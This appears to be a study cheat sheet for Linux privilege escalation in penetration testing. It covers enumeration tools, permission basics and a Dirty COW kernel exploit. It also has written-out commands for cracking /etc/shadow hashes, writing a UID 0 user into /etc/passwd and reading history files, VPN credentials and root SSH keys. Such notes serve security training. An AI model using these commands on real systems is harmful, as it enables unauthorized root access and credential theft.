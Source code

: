 ## Linux Privilege Escalation

![68747470733a2f2f7062732e7477696d672e636f6d2f6d656469612f44415a73453256555141415f62705a2e6a7067](https://user-images.githubusercontent.com/87951795/131122135-fea9fb57-8ea1-4a2a-8969-347305dc1814.jpg)

Windows / Linux Local Privilege Escalation Workshop: https://github.com/sagishahar/lpeworkshop
Linux PrivEsc cheatsheets: https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/

Tools:
- https://github.com/diego-treitos/linux-smart-enumeration
- https://github.com/rebootuser/LinEnum

Other Tools:
- https://github.com/linted/linuxprivchecker
- https://github.com/AlessandroZ/BeRoot
- http://pentestmonkey.net/tools/audit/unix-privesc-check

Strategy:
1. Check your user (id, whoami).
2. Run Linux Smart Enumeration with increasing levels.
3. Run LinEnum & other scripts as well!
4. If your scripts are failing and you don’t know why, you can always run 
the manual commands from this course, and other Linux PrivEsc
cheatsheets online (e.g. https://blog.g0tmi1k.com/2011/08/basic-
linux-privilege-escalation/)
5. If a user accidentally types their password on the command line instead of into a password prompt, it may get recorded in a history file. cat ~/.*history 
6. Have a quick look around for files in your user’s home directory and other common locations (e.g. /var/backup, /var/logs).
7. Try things that don’t have many steps first, e.g. Sudo, Cron Jobs, SUID files.
8. Have a good look at root processes, enumerate their versions and search for exploits.
9. Check for internal ports that you might be able to forward to your attacking machine.
10. At the end start to think about Kernel Exploits


Permissions in Linux:
- User accounts are configured in the /etc/passwd file.
- User password hashes are stored in the /etc/shadow file.
- Groups are configured in the /etc/group file.
  - Users have a primary group (has the same name  as their user account), and can have multiple secondary (or supplementary) groups.
- Users are identified by an integer user ID (UID). (root (UID) = 0) (id & cat /proc/$$/status | grep "[UG]id")
  - Real: A user’s real ID is who they actually are (the ID defined in /etc/passwd).
  - Effective: A user’s effective ID is normally equal to their real ID, however when executing a process as another user, the effective ID is set to that user’s real ID
  - Saved: saved ID is used to ensure that SUID processes can temporarily switch a user’s effective ID back to their real ID and back again without losing track of the original effective ID.

Files & Directories:  
![linux-file---folder-permissions](https://user-images.githubusercontent.com/87951795/131246543-ed68873f-40e0-49ba-b313-0e66c32baf52.gif)
- Files
  - Read – when set, the file contents can be read.
  - Write – when set, the file contents can be modified.
  - Execute – when set, the file can be executed (i.e. run as some kind of process).
- Directories
  - Execute – when set, the directory can be entered. Without this permission, neither the read nor write permissions will work.
  - Read – when set, the directory contents can be listed.
  - Write – when set, files and subdirectories can be created in the directory.
- Special Permissions
  - SUID: When set, files will get executed with the privileges of the file owner.
  - SGID: When set on a file, the file will get executed with the privileges of the file group. When set on a directory, files created within that directory will inherit the group of the directory itself.
  - -r-sr-sr-x The first s stands for the SUID and the second one stands for SGID.

## The kernel exploit:
Should be a last resort as kernel exploits can often be unstable and may be one shot or cause a system crash.
1. Enumerate kernel version (uname -a).
2. Find matching exploits use Linux Exploit Suggester 2 or (Google, ExploitDB, GitHub).  
  - https://github.com/jondonas/linux-exploit-suggester-2
```
./linux-exploit-suggester.pl -k (karnel vertion from uname -a)

or

searchsploit linux kernel 2.6.32 priv esc
searchsploit linux kernel 2.6 debian priv esc
```
3. Compile and run.
```
gcc -pthread c0w.c -o c0w
./c0w
/usr/bin/passwd
```
## Weak File Permissions
- Readable /etc/shadow:
  - cat /etc/shadow (copy password hash found between the first and second colons : to file)
  - john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
- Writable /etc/shadow:
  - mkpasswd -m sha-512 newpasswordhere
  - Edit the /etc/shadow file and replace the original root user's password hash with the one you just generated.
- Writable /etc/passwd 
  - if the second field of a user row in /etc/passwd contains a password hash, it takes precedent over the hash in /etc/shadow.
    - root: x:0:0:root:/root:/bin/bash
    - The “x” instructs Linux to look for the password hash in the /etc/shadow file
    - openssl passwd "password"
    - root:L9yLGxncbOROc:0:0:root:/root:/bin/bash
  - Alternatively, if we can only append to the file, we can create a new user but assign them the root user ID (0). This works because Linux allows multiple entries for the same user ID, as long as the usernames are different
    - newroot:L9yLGxncbOROc:0:0:root:/root:/bin/bash
  - In some versions of Linux, it is possible to simply delete the “x”, which Linux interprets as the user having no password
    - root::0:0:root:/root:/bin/bash
- Backups
  - It is always worth exploring the file system looking for readable backup files. Some common places include user home directories, the / (root) directory, /tmp, and /var/backups.
    - ls -la /home/user
    - ls -la /
    - ls -la /tmp
    - ls -la /var/backups
    - ls -l /.ssh
  - If we have a ssh key
    - confirm that root logins are even allowed via SSH:
    - grep PermitRootLogin /etc/ssh/sshd_config
    - chmod 600 root_key
  
## Passwords & Keys
- History Files
  - View the contents of hidden files in the user’s home directory with filenames ending in “history
```
cat ~/.*history | less
cat .bash_history
```
- Config Files
  - Many services and programs use configuration (config) files to store settings.
  - If a service needs to authenticate to something, it might store the credentials in a config file.
  - If these config files are accessible, and the passwords they store are reused by privileged users, we may be able to use it to log in as that user. 
```
cat myvpn.ovpn
cat /etc/openvpn/auth.txt
```
- SSH Keys
  - SSH keys can be used instead of passwords to authenticate users using SSH.
```
ls -l /.ssh
cat /.ssh/root_key
```

